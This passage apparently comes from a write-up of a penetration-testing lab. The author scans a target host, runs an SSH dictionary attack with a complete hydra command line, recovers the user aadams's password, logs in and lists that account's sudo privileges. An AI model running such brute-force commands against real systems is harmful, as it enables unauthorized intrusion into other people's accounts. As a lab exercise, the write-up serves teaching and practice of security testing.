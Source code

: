 ```
 
OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.60 seconds
```

Lots of services running that are worth exploring. Since I had already created a list of possible login names, and the server has SSH open, I decided to try an SSH dictionary attack using hydra. Backtrack comes with several wordlists containing possible passwords. I actually ended up using a customized one that contains approximately 980,000 passwords in non-alphabetical order.

With my login name list and password list ready, I fired up hydra:

```
/opt/hydra6/bin/hydra -L users.txt -P passwords.txt -t 5 -v -V -e n -e s -o results.txt 192.168.1.100 ssh
```

While this was running, I decided to explore the other services nmap reported. FTP seemed to be broken, so connecting to it was futile. I used searchsploit to see if I could find any available exploits for the services I found, but nothing stood out, so I decided to wait for hydra to generate results.

The user names adamadams, banterb, and coffeec did not result in any passwords. So now there were two possibilities; I didn't have their passwords in my password list, or the login names were different. I decided to wait it out and let hydra go through the rest of the login names and see if it would get a bite.

hydra delivered and rewarded me with a password for aadams: nostradamus. Now that I had a better idea of the format for the login name, I tailored my login name list accordingly to use the first character of the first name followed by the last name and ran hydra again. 

With hydra running in the background, I went ahead and logged into the server via SSH with aadams's credentials. Once I was in, the first thing I decided to do was to see what privileges aadams had:

```
root@lascars# ssh aadams@192.168.1.100
aadams@192.168.1.100's password: 
Linux 2.6.16.
aadams@slax:~$ id
uid=1000(aadams) gid=10(wheel) groups=10(wheel)
aadams@slax:~$ sudo -l
 
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
 
    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.
 
Password:
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*
```
